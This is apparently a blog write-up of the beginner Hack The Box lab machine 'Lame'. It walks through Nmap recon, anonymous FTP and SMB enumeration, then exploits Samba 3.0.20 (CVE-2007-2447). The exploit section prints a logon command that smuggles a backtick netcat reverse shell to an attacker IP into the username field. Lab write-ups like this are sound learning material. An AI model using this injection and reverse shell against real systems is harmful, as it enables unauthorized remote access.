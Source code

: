 ```yaml
---
layout: post
title: Lame
date: 2024-07-17 10:00:00 -0400
---
```

![machine card](/assets/lame/Lame.png)

Lame box is an easy challenge suitable for beginners. It involves discovering open ports like FTP and SMB using Nmap. A vulnerability in Samba 3.0.20-Debian allows for remote command execution, making it a straightforward introduction to penetration testing.
# Recon

## nmap

Discovered some open ports.

![nmap](/assets/lame/Lame_image_1.png)

Scan ports 21 (FTP), 22 (SSH), 139 (NetBIOS), 445 (SMB), and 3632, perform version detection and default script scanning.

![svc scan](/assets/lame/Lame_image_2.png)

## FTP - TCP 21
Anonymous login but empty.

![anonymous login](/assets/lame/anonlogin.png)

## SMB - TCP 445
One accessible share.

![shares](/assets/lame/Lame_image_3.png)

Nothing Important

![nada](/assets/lame/Lame4.png)


# Exploit
Samba 3.0.20-Debian is vulnerable to RCE.
CVE: https://nvd.nist.gov/vuln/detail/CVE-2007-2447

Connect to the smb share:
```
smbclient //10.129.101.202/tmp
```
Enter command to pop a shell:
```
logon "/=`nc 10.10.14.151 1337 -e /bin/sh`"
```

Root

![root](/assets/lame/tmp1719122533136_Lame_image_1.png)

